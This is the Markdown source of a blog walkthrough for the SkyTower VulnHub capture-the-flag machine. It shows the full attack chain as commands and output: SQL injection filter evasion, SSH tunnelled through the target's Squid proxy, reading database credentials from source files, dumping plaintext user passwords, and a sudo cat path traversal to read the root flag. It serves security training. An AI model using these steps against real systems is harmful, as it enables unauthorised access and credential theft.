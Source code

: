```yaml
---
layout: blog_item
title:  "SkyTower - Walkthrough"
date:   2015-07-20 15:00:60
author: Dhruv Ambaliya
description: 'SkyTower 1, a VulnHub CTF Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

This CTF was designed by Telspace Systems for the CTF at the ITWeb Security Summit and BSidesCPT (Cape Town). The aim is to test intermediate to advanced security enthusiasts in their ability to attack a system using a multi-faceted approach and obtain the "flag".

You will require skills across different facets of system and application vulnerabilities, as well as an understanding of various services and how to attack them. Most of all, your logical thinking and methodical approach to penetration testing will come into play to allow you to successfully attack this system. Try different variations and approaches. You will most likely find that automated tools will not assist you.

**Author:** Telspace Systems

**Download:** [VulnHub](https://www.vulnhub.com)

## Enumeration

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 10.0.1.114

{% endhighlight %}


### Host Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.22 ((Debian))</p></pc>
           </td>
        </tr>

        <td>
            <pc><p><code>TCP: 3128</code></p></pc>
        </td>
        <td>
            <pc><p>http-proxy</p></pc>
        </td>
        <td>
            <pc><p>Squid http proxy 3.1.20</p></pc>
        </td>
     </tr>

      </tbody>

</table>
</div>


## Web Application Analysis

The basic test below indicated the web application could be vulnerable to SQL injection.


![SQLi Test](/img/blog/skytower/sqli-test.png)

[SQL Injection](/penetration-testing/web-app/sql-injection/) looked possible + DB identified as MySQL:

![MySQL error](/img/blog/skytower/sqli-error.png)

Enumeration indicated the web application was filtering the SQLi attempts and removing some characters, such as <code>OR</code>. This was overcome (after researching for SQLi filtering evasion) using the following:

![Burp SQLi Evasion](/img/blog/skytower/burp-sqli-evasion.png)

With no direct access to SSH the above credentials could not be leveraged to gain a Shell.

## HTTP Proxy SSH Connection

The following was used to gain access to the SSH server by proxying the connection through the open **SQUID** server on the target machine.

Setup tunnel with proxytunnel:

{% highlight bash %}

[root:~]# proxytunnel -p 10.0.1.114:3128 -d 127.0.0.1:22 -a 4444

{% endhighlight %}

SSH through the HTTP tunnel:

{% highlight bash %}
[root:~]# ssh john@127.0.0.1 -p 4444  "/bin/sh"
john@127.0.0.1's password:

id
uid=1000(john) gid=1000(john) groups=1000(john)
{% endhighlight %}

<code>/bin/sh</code> needed to be postfixed to the end of the SSH command, as the server appeared to kick connections upon connection.

## Local Enumeration

Enumeration as the user John discovered the MySQL root credentials:

{% highlight bash %}

$ cat login.php
<?php

$db = new mysqli('localhost', 'root', 'root', 'SkyTech');

{% endhighlight %}

## MySQL Credentials

The following process was used to disclosed the users credentials:

{% highlight bash %}
$ mysql -u root -p
Enter password: root
show databases;


\q
Database
information_schema
SkyTech
mysql
performance_schema
$ mysql -u root -p SkyTech
Enter password: root
show tables;
\q
Tables_in_SkyTech
login



mysql -u root -p SkyTech
Enter password: rootroot
ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password: YES)
mysql -u root -p SkyTech
Enter password: root
select * from login;
\q
id    email    password
1    john@skytech.com    hereisjohn
2    sara@skytech.com    ihatethisjob
3    william@skytech.com    senseable
{% endhighlight %}

## Privilege Escalation - Password Reuse

Password reuse for the user <code>sara</code> was possible using the previously discovered credentials.

{% highlight bash %}

[root:~]# ssh sara@127.0.0.1 -p 4444 -t  "/bin/sh"
sara@127.0.0.1's password:
$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
{% endhighlight %}

The user **sara** had sudo access to the binary <code>/bin/cat</code>, path traversal was used to cat the contents of <code>/root/flag.txt</code> which contained the root password.

{% highlight bash %}

$ sudo /bin/cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
$

{% endhighlight %}

### Getting root:

With the previously discovered credentials it was possible to <code>su -</code> to root:

{% highlight bash %}

$ su -
Password:
root@SkyTower:~# id
uid=0(root) gid=0(root) groups=0(root)
root@SkyTower:~# cat flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
root@SkyTower:~#

{% endhighlight %}

## Conclusion

I enjoyed the SQL injection filtering evasion, overall a short CTF that can easily be done in an evening.    

Thanks for the VM :)
